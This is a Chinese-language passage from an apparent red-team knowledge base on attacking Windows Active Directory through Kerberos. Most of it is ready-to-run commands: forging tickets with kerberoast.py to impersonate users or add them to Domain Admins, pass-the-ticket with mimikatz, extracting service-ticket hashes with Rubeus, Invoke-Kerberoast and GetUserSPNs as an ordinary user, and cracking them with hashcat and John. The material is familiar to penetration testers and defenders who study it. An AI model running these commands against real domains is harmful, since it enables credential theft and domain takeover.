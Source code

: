 Kerberos 的票据是使用 NTLM Hash 进行签名，上述已经破解密码，就可以使用 Kerberoast 脚本重写票据，这样就可以假冒任何域用户或者虚假的账户，也可以将用户提升到域管中：
```bash
python kerberoast.py -p Admin12345 -r 2-40a00000-jack@MSSQLSvc~Srv-DB-ffffffff0x.ffffffff0x.com~1433-ffffffff0x.com.kirbi -w test.kirbi -u 500
python kerberoast.py -p Admin12345 -r 2-40a00000-jack@MSSQLSvc~Srv-DB-ffffffff0x.ffffffff0x.com~1433-ffffffff0x.com.kirbi -w test.kirbi -g 512
```

```bash
kerberos::ptt test.kirbi
```
攻击者知道一台服务器(或多台服务器)的服务账户和密码，就可以通过此方法将其域用户权限提升到域管。

---

### Kerberoasting

> 以下内容来自文章 <sup>[[浅学Windows认证](https://b404.xyz/2019/07/23/Study-Windows-Authentication/#kerberoasting)]</sup>

kerberoast 攻击，利用 mimikatz 从内存中导出票据破解。而 Kerberoasting 攻击可以不使用 mimikatz，且普通用户权限就可以实现。

**导出**
- **Rubeus**
    - https://github.com/GhostPack/Rubeus
        ```
        Rubeus.exe kerberoast
        ```

- **Invoke-Kerberoast**

    也可以在域内一台主机上导入 https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1 ，以普通用户权限执行：
    ```powershell
    Import-Module .\Invoke-Kerberoast.ps1
    Invoke-Kerberoast -Outputformat Hashcat | fl > test1.txt
    ```

    只提取出 hash 的命令：
    ```powershell
    Invoke-Kerberoast -OutputFormat Hashcat | Select hash | ConvertTo-CSV -NoTypeInformation
    ```

- **GetUserSPN**
    使用 impacket 中的 GetUserSPN.py 也可以获取，不过需要域用户名和密码：
    ```powershell
    GetUserSPNs.exe -request -c -ip 192.168.3.142 ffffffff0x.com/sqlsvr
    ```

- 也可以使用 https://github.com/blacklanternsecurity/Convert-Invoke-Kerberoast

**解密**
```bash
# 使用 hashcat 解密
hashcat -m 13100 hash.txt dict.txt -o /opt/dict/dist.list --force   # 使用字典
hashcat -m 13100 -w 3 -a 3 -m 13100 hash -w 3 -a 3 ?l?l?l?l?l?l?l   # 使用掩码

# 使用 john 破解
./kirbi2john.py /root/empire-dev/downloads/BDW3E2G2ZRKCUS3B/*.kirbi > /tmp/johnkirb.txt
./john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

---
